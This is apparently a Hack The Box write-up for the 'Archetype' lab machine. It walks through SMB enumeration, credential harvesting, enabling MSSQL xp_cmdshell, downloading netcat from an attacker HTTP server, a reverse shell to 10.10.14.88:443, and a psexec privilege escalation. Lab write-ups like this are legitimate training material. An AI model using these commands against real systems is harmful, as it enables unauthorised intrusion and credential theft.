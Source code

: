 ```yaml
---
layout: post
title: 'HTB | Archetype'
date: 2022-02-28
permalink: /htb/archetype/
---
```



# [](#header-4)Enumeration

The nmap will show us:
{% highlight plain %}
$ nmap -sV 10.129.221.7 -oN nmap 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-28 11:45 EST
Nmap scan report for 10.129.221.7
Host is up (0.049s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.15 seconds
```

We will try to see which folders are share.
{% highlight plain %}
$ smbclient -L //10.129.221.7/
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC

```

And then try to connect to **backups**:
{% highlight plain %}
$ smbclient //10.129.221.7/backups/
smb: \> ls
smb: \> get prod.dtsConfig
smb: \> exit
$ cat prod.dtsConfig  
```
There we can see:
{% highlight plain %}
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
```



Now we can try to login with the scripts **mssqlclient.py**.
We will use the credentials provides by the **prod.dtsConfig** file.
{% highlight plain %}
$ sudo python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.221.7 -windows-auth
```

# [](#header-4)Foothold

Now we are in the SQL server. With the command **xp_cmdshell** we can try to execute the shell, but we will recieve the following error:
{% highlight plain %}
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell'
```
Now we need to activate xp_cmdshell. With the following command we can see all the config aviable.
{% highlight plain %}
SQL> sp_configure
```
We need to activate the advanced options:
{% highlight plain %}
SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
```
And then we can activate the shell:
{% highlight plain %}
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
```

Now we can get the **user flag**:
{% highlight plain %}
SQL> xp_cmdshell type C:\Users\sql_svc\Desktop\user.txt
```

We will make a reverse shell.
First we will start a nc in the port 443.
{% highlight plain %}
$ sudo nc -lvnp 443
{% endhighlight %}

Now we will create a http server in the same folder where we have the **nc64.exe** file.
{% highlight plain %}
$ sudo python3 -m http.server 80 
{% endhighlight %}

We need to download that file in the server. Because we don't have root access we will use the normal user.
{% highlight plain %}
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.88/nc64.exe -outfile nc64.exe"
{% endhighlight %}

The **http.server** will receive the following line:
{% highlight plain %}
10.129.221.7 - - [28/Feb/2022 12:51:53] "GET /nc64.exe HTTP/1.1" 200 -
{% endhighlight %}

Now we execute the command and send the cmd to the 443 port (where we are listening):
{% highlight plain %}
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.88 443"
{% endhighlight %}

# [](#header-4)Privilege Escalation

Now we will need to use **winPEAS** to do the privilege escalation. We will change the prompt to powershell, and download the file.
{% highlight plain %}
C:\Users\sql_svc\Downloads>powershell
PS C:\Users\sql_svc\Downloads> wget http://10.10.14.88/winPEASx64.exe -outfile winPEASx64.exe
{% endhighlight %}

In the http.server we can see that works:
{% highlight plain %}
C:\Users\sql_svc\Downloads>powershell
10.129.221.7 - - [28/Feb/2022 13:01:29] "GET /winPEASx64.exe HTTP/1.1" 200 -
{% endhighlight %}

No we will execute the script:
{% highlight plain %}
PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
{% endhighlight %}

We can check the shell history for credentials (like **.bash_history**).
{% highlight plain %}
PS C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type ConsoleHost_history.txt
        net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
{% endhighlight %}

With the password we have now we will use another script from impacket, **psexec.py**:
{% highlight plain %}
$ python3 psexec.py administrator@10.129.221.7
{% endhighlight %}

We can use the password from before and now we are in the Administrator user:
{% highlight plain %}
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
{% endhighlight %}
